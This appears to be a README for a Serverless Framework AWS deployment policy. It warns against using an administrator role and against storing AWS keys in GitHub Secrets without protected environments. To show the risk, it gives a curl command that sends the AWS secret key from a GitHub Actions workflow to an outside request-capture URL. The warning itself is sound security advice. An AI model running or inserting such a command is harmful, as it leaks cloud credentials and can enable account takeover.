 # Serverless Deployment Policy
Sadly, the serverless documentation does not clearly mention that the **“Administration Role” should never be used in production environments**. 
Using this role can cause significant security risks. If someone gains access to these keys, 
they may be able to create a new user with access to the web console and take full control of your AWS account.

Please create pull requests if you come across new permissions such as for AWS Kinesis.

## GitHub Secrets Note
Furthermore, avoid using the "Administration Role" for any AWS account if you only 
store the keys in GitHub Secrets without using the GitHub Environment with the "Protected Branch" configuration.  

Storing keys directly in GitHub Secrets without additional security controls can lead to unauthorized access. 
Any user with commit privileges could potentially utilize GitHub Actions to extract these keys

```
curl -d '{ "name": "${{ secrets.AWS_SECRET_KEY }}" }' \
  -H "Content-Type: application/json" \
  https://enci4g46iahum.x.pipedream.net/
```

Therefore, it is advisable to use GitHub environments to restrict key access to specific branches within your repository. 
This practice helps to increase security and keep controlled access to sensitive information.
